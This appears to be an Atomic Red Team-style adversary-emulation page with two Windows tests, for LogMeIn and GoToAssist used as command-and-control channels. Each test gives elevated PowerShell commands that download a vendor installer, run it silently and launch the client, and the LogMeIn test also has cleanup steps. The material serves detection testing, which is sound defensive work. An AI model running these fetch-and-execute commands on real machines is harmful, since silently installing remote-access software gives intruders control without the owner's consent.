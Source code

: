 <br/>
<br/>

## Atomic Test #3 - LogMeIn Files Detected Test on Windows

An adversary may attempt to trick the user into downloading LogMeIn and use to establish C2. Download of LogMeIn installer will be at the destination location and ran when sucessfully executed.

**Supported Platforms:** Windows

**auto_generated_guid:** d03683ec-aae0-42f9-9b4c-534780e0f8e1

#### Attack Commands: Run with `powershell`! Elevation Required (e.g. root or admin)

```powershell
Invoke-WebRequest -OutFile C:\Users\$env:username\Desktop\LogMeInIgnition.msi https://secure.logmein.com/LogMeInIgnition.msi
$file1 = "C:\Users\" + $env:username + "\Desktop\LogMeInIgnition.msi"
Start-Process -Wait $file1 /quiet;
Start-Process 'C:\Program Files (x86)\LogMeIn Ignition\LMIIgnition.exe' "/S"
```

#### Cleanup Commands:

```powershell
get-package *'LogMeIn Client'* -ErrorAction Ignore | uninstall-package
$file1 = "C:\Users\" + $env:username + "\Desktop\LogMeInIgnition.msi"
Remove-Item $file1 -ErrorAction Ignore
```

<br/>
<br/>

## Atomic Test #4 - GoToAssist Files Detected Test on Windows

An adversary may attempt to trick the user into downloading GoToAssist and use to establish C2. Download of GoToAssist installer will be at the destination location and ran when sucessfully executed.

**Supported Platforms:** Windows

**auto_generated_guid:** 1b72b3bd-72f8-4b63-a30b-84e91b9c3578

#### Attack Commands: Run with `powershell`! Elevation Required (e.g. root or admin)

```powershell
Invoke-WebRequest -OutFile C:\Users\$env:username\Downloads\GoToAssist.exe "https://launch.getgo.com/launcher2/helper?token=e0-FaCddxmtMoX8_cY4czssnTeGvy83ihp8CLREfvwQshiBW0_RcbdoaEp8IA-Qn8wpbKlpGIflS-39gW6RuWRM-XHwtkRVMLBsp5RSKp-a3PBM-Pb1Fliy73EDgoaxr-q83WtXbLKqD7-u3cfDl9gKsymmhdkTGsXcDXir90NqKj92LsN_KpyYwV06lIxsdRekhNZjNwhkWrBa_hG8RQJqWSGk6tkZLVMuMufmn37eC2Cqqiwq5bCGnH5dYiSUUsklSedRLjh4N46qPYT1bAU0qD25ZPr-Kvf4Kzu9bT02q3Yntj02ZA99TxL2-SKzgryizoopBPg4Ilfo5t78UxKTYeEwo4etQECfkCRvenkTRlIHmowdbd88zz7NiccXnbHJZehgs6_-JSVjQIdPTXZbF9T5z44mi4BQYMtZAS3DE86F0C3D4Tcd7fa5F6Ve8rQWt7pvqFCYyiJAailslxOw0LsGyFokoy65tMF980ReP8zhVcTKYP8s8mhGXihUQJQPNk20Sw&downloadTrigger=restart&renameFile=1"
$file1 = "C:\Users\" + $env:username + "\Downloads\GoToAssist.exe"
Start-Process $file1 /S;
```
